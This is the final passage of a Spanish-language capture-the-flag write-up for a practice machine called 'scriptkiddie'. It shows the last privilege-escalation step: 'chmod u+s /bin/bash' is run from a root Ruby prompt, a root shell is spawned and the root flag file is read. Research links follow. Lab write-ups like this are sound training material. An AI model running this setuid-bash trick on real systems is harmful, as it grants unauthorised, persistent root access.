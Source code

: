 Y bien, podemos hacer dos cosas, cambiar los permisos de la **Bash** y/o entrar a la **Bash**:
```bash
>> system("chmod u+s /bin/bash")
=> true
>> system("bash")
root@scriptkiddie:/home/pwn# whoami
root
```

Y ya busca la flag:
```bash
root@scriptkiddie:/home/pwn# cd /root
root@scriptkiddie:~# ls -la
total 44
drwx------  7 root root 4096 Feb  3  2021 .
drwxr-xr-x 20 root root 4096 Feb  3  2021 ..
lrwxrwxrwx  1 root kid     9 Jan  5  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Jan  5  2021 .cache
drwxr-xr-x  3 root root 4096 Jan  5  2021 .gem
lrwxrwxrwx  1 root root    9 Feb  3  2021 .lesshst -> /dev/null
drwxr-xr-x  3 root root 4096 Jan  5  2021 .local
drwxr-xr-x  9 root root 4096 Jan 28  2021 .msf4
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   75 Jan  5  2021 .selected_editor
lrwxrwxrwx  1 root root    9 Feb  3  2021 .viminfo -> /dev/null
-r--------  1 root root   33 May  8 20:23 root.txt
drwxr-xr-x  3 root root 4096 Jan 28  2021 snap
root@scriptkiddie:~# cat root.txt
...
```
Al fin, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
	<h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://werkzeug.palletsprojects.com/en/2.3.x/
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
* https://github.com/DominicBreuker/pspy/releases
* https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html
* https://github.com/rapid7/metasploit-framework/issues/14130


<br>
# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
